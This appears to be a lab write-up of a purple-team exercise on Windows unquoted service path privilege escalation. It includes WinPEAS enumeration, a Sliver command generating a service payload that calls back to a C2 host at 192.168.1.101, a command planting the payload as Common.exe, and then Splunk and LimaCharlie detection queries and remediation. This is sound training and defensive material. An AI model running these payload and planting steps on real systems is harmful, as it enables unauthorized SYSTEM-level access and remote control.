# Phase 2: Privilege Escalation — Unquoted Service Path Abuse

## Overview

Objective  
Escalate privileges from a Standard User (Medium Integrity) to NT AUTHORITY\SYSTEM (High Integrity).

Our current privilege:

<p align="center">
  
</p>
<p align="center">
  <em>Figure 1: Standard user operating with medium integrity privileges.</em>
</p>

MITRE ATT&CK Mapping  
- Tactic: TA0004 – Privilege Escalation  
- Technique: T1574.009 – Path Interception (Unquoted Service Path)

Strategy  
Passive trigger (“plant and wait”) — abusing normal Windows behavior instead of forcing execution.

---

## Scenario: Unquoted Service Path Exploitation

### Vulnerability Identified

The Windows service VulnService was configured with an unquoted executable path containing spaces:

```
C:\Program Files\Vulnerable Service\Common Files\Target.exe
```

Because the path is unquoted, Windows resolves executables in the following order:

```
C:\Program.exe
C:\Program Files\Vulnerable.exe
C:\Program Files\Vulnerable Service\Common.exe
C:\Program Files\Vulnerable Service\Common Files\Target.exe
```

If an attacker can write to any of these locations, execution can be hijacked.

---

## Analyst Insight — “Trap and Wait”

“I didn’t force the door open. I unlocked it and waited for the owner to walk through.”

As a standard user, restarting services manually often results in Access Denied.  
Instead of being noisy, a logic flaw was abused:

- The service path is unquoted  
- Write access exists in a parent directory  
- Windows will restart the service naturally (reboot, crash recovery, scheduled restart)

This turns a legitimate system action into the execution trigger.

---

## Attack Simulation (Red Team)

### Step 1: Detection — Identifying the Misconfiguration

Tool: WinPEAS  
Purpose: Enumerate privilege escalation vectors

Command:

```
winpeas.exe quiet servicesinfo
```

Observation:
- VulnService2 flagged in red
- Identified as an Unquoted Service Path
- Write permissions available in the parent directory

Vulnerable Binary Path:

```
C:\Program Files\Vulnerable Service\Common Files\Target.exe
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 2: WinPEAS output highlighting the unquoted service path.</em>
</p>

The service configuration from Windows:

<p align="center">
  
</p>
<p align="center">
  <em>Figure 3: Vulnerable Windows service configuration.</em>
</p>

---

### Step 2: Weaponization — Service-Compatible Payload

Tool: Sliver C2  
Payload generated in Windows service format to ensure stable execution under SCM.

Command:

```
generate --http 192.168.1.101:80 \
  --os windows \
  --arch amd64 \
  --format service \
  --name CommonSvc \
  --save /home/kali/Comm
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4: Sliver payload generation and successful output.</em>
</p>

---

### Step 3: Delivery — Planting the Payload

Payload renamed to Common.exe to match the path interception breakpoint.

Target directory:

```
C:\Program Files\Vulnerable Service\
```

Upload command:

```
upload /home/kali/Common.exe "C:\\Program Files\\Vulnerable Service\\Common.exe"
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 5: Payload upload command.</em>
</p>

<p align="center">
  
</p>
<p align="center">
  <em>Figure 6: Payload successfully placed in the vulnerable directory.</em>
</p>

---

### Step 4: Trigger — Passive Execution

Instead of forcing a service restart:

- Action: None (wait state)
- Trigger Event: System reboot or natural service restart
- System Behavior:
  - Service Control Manager executes Common.exe
  - Process runs with SYSTEM privileges

<p align="center">
  
</p>
<p align="center">
  <em>Figure 7: Service execution during system startup.</em>
</p>

System Behavior: Upon startup, the Windows Service Control Manager (SCM) automatically executed Common.exe with SYSTEM privileges.

<p align="center">
  
</p>
<p align="center">
  <em>Figure 8: Command-and-Control channel established.</em>
</p>

---

### Step 5: Result — SYSTEM Access

A new Sliver session checked in automatically after execution.

Verification:

```
whoami
```

Result:

```
NT AUTHORITY\SYSTEM
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 9: SYSTEM-level access confirmed via Sliver session.</em>
</p>

---

## Detection & Hunting (Blue Team — Splunk)

SIEM: Splunk  
Focus: Detect both the setup and the execution

---

### Alert 1: File Creation — Pre-Execution Detection

Sysmon Event ID 11 (File Create)

Query:

```
index=windows EventCode=11
(TargetFilename="*\\Program.exe" OR TargetFilename="*\\Common.exe")
NOT User="NT AUTHORITY\\SYSTEM"
```

Why this works:
- Standard users writing executables to Program Files is abnormal
- File names align with known unquoted path breakpoints

---

### Alert 2: Process Execution — Privilege Escalation

Sysmon Event ID 1 (Process Create)

Query:

```
index=windows EventCode=1
Image="*\\Common.exe"
ParentImage="*\\services.exe"
IntegrityLevel="System"
```

Why this matters:
- services.exe should only launch legitimate service binaries
- Confirms successful path interception

<p align="center">
  
</p>

<p align="center">
  
</p>
<p align="center">
  <em>Figure 10: Splunk process creation events confirming SYSTEM execution.</em>
</p>

---

## SOC Decision & Remediation (Splunk)

Status: CONFIRMED COMPROMISE

Root Cause:
- Unquoted service path in registry configuration

Remediation Steps:

1. Kill  
   - Terminate Common.exe

2. Patch  

```
sc config "VulnService" binPath= "\"C:\Program Files\Vulnerable Service\Common Files\Target.exe\""
```

3. Clean  
   - Remove malicious binary from disk

---

## Detection & Response (Blue Team — LimaCharlie)

Method: Sigma-based detection with real-time telemetry

---

### Timeline Validation

Triggered Alert:
- Suspicious Service Binary Directory

Observed Telemetry:
- Event: NEW_PROCESS
- Binary: C:\Users\Public\Vulnerable\Common.exe
- User Context: NT AUTHORITY\SYSTEM
- Parent Process: services.exe

Assessment:  
Execution of an unsigned binary from a user-writable directory under SYSTEM context strongly indicates service binary hijacking via unquoted service path abuse.

<p align="center">
  
</p>
<p align="center">
  <em>Figure 11: LimaCharlie timeline showing services.exe spawning Common.exe.</em>
</p>

---

## SOC Decision & Active Response (LimaCharlie)

Status: ACTIVE THREAT — ISOLATION IN PROGRESS

Immediate Actions:
- Network Isolation: segregate_network
- Process Termination: os_kill_process on Common.exe

---

## Final Remediation & Hardening

- Fixed unquoted service path
- Removed malicious executable
- Restricted write permissions on service directories
- Prevented standard users from modifying service binaries

---

## Key Takeaway

This privilege escalation required:
- No exploits
- No brute force
- No forced service restarts

Only misconfiguration awareness, patience, and normal Windows behavior.

“Sometimes the quietest attacks are the most effective.”
